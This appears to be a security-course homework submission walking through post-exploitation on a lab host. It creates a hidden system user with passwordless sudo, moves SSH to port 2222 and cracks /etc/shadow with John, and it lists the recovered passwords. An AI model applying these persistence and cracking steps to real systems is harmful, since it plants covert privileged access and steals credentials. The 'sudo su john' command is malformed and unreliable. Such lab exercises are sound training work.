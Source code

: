 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

        adduser --system --no-create-home sysd

2. Give your secret user a password:

        passwd sysd

3. Give your secret user a system UID < 1000:

        usermod -u 822 sysd

4. Give your secret user the same GID:

        usermod -g 822 sysd

5. Give your secret user full `sudo` access without the need for a password:

        sysd ALL=(ALL:ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

        sudo -l

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

        sudo nano /etc/ssh/sshd_config

        Port 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

        systemctl restart ssh.service

2. Exit the `root` account:

        exit

3. SSH to the target machine using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:

        sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

        sudo su john /etc/shadow

    Passwords:


        computer	(stallman)  
        freedom	    (babbage)  
        trustno1	(mitnik)  
        dragon	    (lovelace)  
        lakers		(turing)  
        passw0rd	(sysadmin)  
        Goodluck!	(student)  
        p4ssw0rd*	(sysd)

